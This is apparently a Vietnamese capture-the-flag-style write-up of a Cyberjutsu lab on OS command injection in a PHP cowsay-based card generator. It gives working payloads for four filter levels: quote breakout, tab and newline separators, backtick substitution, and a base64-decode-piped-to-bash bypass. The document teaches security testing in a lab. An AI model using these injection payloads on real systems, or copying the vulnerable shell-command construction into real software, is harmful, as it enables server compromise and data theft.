







# Write-up 4IN1_BIZCARD_GENERATOR
Đây là write up của bài lab tiếp theo về chủ đề OS Command Injection của Cyberjutsu. Mọi người làm bài lab bằng cách dùng lệnh `docker-compose up --build` rồi truy cập vào localhost:5555 nhé.

Trước hết, chúng ta sẽ nói sơ qua về cách web này hoạt động

Chúng ta cần ba tham số đó là level, type, và username. Tham số username sẽ được xử lí thông qua hàm `validate_username` tùy vào level. Cuối cùng, web sẽ xử lí các lệnh `cowsay` khác nhau theo `type` mà ta chọn.
```php
switch($type){
    case 'eyes':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f eyes -n 
        EOF;
        break;
    case 'turtle':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f turtle -n 
        EOF;
        break;
    case 'dragon':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -f dragon -n 
        EOF;
        break;   
    case 'figlet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n ; figlet "Hello $username"
        EOF;
        break;
    case 'toilet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n ; toilet 'Hello $username'
        EOF;
        break;  
    case 'inception':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n | cowthink -n
        EOF;
        break; 
    case 'tenet':
        $cowsay = <<<EOF
        echo 'Hello $username' | cowsay -n | cowthink -n | cowsay -n 
        EOF;
        break;              
    case 'random':
    default:
        $cowsay = <<<EOF
        fortune | cowsay -n | cowthink -n
        EOF;
}
```
Nhìn vào đoạn code trên, ta có thể nhận ra rằng web này có khả năng bị lỗ hổng OS Command Injection (chúng ta chỉ cần tìm cách thoát ra khỏi các cặp nháy là được). Tuy vậy, có khai thác được hay không thì cũng phụ thuộc vào cách tham số `username` được xử lí như thế nào.
## **Level 1**
```php
$input = addslashes($input);
```
Ở đây, biến input chỉ được xử lí qua hàm `addslashes`. Hàm này sẽ tự động thêm dấu `\` vào trước các kí tự cần escaped gồm có `\`, `'` và `"` (Nguồn: [addslashes](https://php.net/addslashes)). Tuy vậy, điều này cũng vô nghĩa do các kí tự ở giữa hai giữa dấu nháy đơn trong linux shell đều bị "vô hiệu hóa" tức là chỉ được xem như là kí tự bình thường kể cả dấu `\`. Do đó, chúng ta chỉ cần nhập ``';command #`` là ổn (nhớ là đừng chọn type random)


-   `';ls / #`



-   `';cat /secret_file #`



## **2. Level 2**
```php
$input = substr($input,0,10);
$input = addslashes($input);
```
Ở level này, ta chỉ được sử dụng tối đa 10 kí tự. Do mình đã biết flag sẽ nằm ở thư mục `/`, nên payload của level này sẽ là: `';cat /* #`


## **3. Level 3**
```php
$input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
$input = addslashes($input);
```
Ở level này, chúng ta không được sử dụng các kí tự quan trọng như là dấu cách, `"`,`'`, `#`, `/`,... (Nguồn: [asciitable.com](https://www.asciitable.com/)) bởi vì các kí tự đó sẽ bị xóa đi. Như vậy làm sao để vượt qua được rào cản này đây?

Nhìn lại code một lần nữa, ta để ý thấy type figlet có cách xử lí hơi khác là sử dụng dấu `"` trong lệnh `figlet`. 
```php
case 'figlet':
    $cowsay = <<<EOF
    echo 'Hello $username' | cowsay -n ; figlet "Hello $username"
    EOF;
```
Dấu `"` khác dấu `'` ở chỗ là các kí tự đặc biệt ở giữa cặp `"` vẫn giữ lại các chức năng vốn có của nó. Vì vậy, ta vẫn có thể thực hiện lệnh lồng trong lệnh khác bằng cặp `` ` ``. Như vậy, chúng ta không cần đến dấu `'`



Nhưng chúng ta vẫn còn dấu cách và dấu `/`. Trong linux shell, dấu cách có thể thay thế bằng dấu tab (ở vị trí 09 trong bảng ascii). Với dấu `/`, chúng ta có thể xử lí bằng cách di chuyển ngược về thư mục `/` rồi `cat secret_file` ra (chúng ta vẫn dùng được dấu `;` để thực thi nhiều câu lệnh cùng một lúc).

**Payload:** gán tham số username = `` `cd%09..;cd%09..;cd%09..;cat%09secret_file` `` và type = figlet. Kết quả như hình dưới:



## **4. Level 4**
```php
$input = preg_replace("/[\x{20}-\x{29}\x{2f}]/","",$input);
$input = preg_replace("/[\x{3b}-\x{40}]/","",$input);
$input = addslashes($input);
```
Ở Level này có thêm các kí tự không được phép nhập vào, đáng chú ý là dấu `;`. Tuy vậy, ngoài `;`, `|`, `&`, chúng ta vẫn có thể phân cách các lệnh bằng dấu xuống dòng có vị trí trong bảng ascii là 0A (tương tự như lúc chúng ta Enter để thực hiện lệnh)
**Payload:** gán tham số username = `` `cd%09..%0acd%09..%0acd%09..%0acat%09secret_file` `` và type = figlet. Kết quả như hình dưới:



## **Bonus**
Ta còn có thể vượt qua các filter trên bằng cách mã hóa câu lệnh mình muốn và dùng lệnh `base64 -d` kết hợp với `bash` để thực thi câu lệnh, cụ thể là:
```zsh
echo 'câu lệnh đã được mã hóa'|base64 -d|bash
```
Do đó, payload ở đây sẽ là: gán tham số username = `` `echo%09Y2F0IC8q|base64%09-d|bash` ``

Note: `cat \*` khi mã hóa base64 sẽ thành Y2F0IC8q


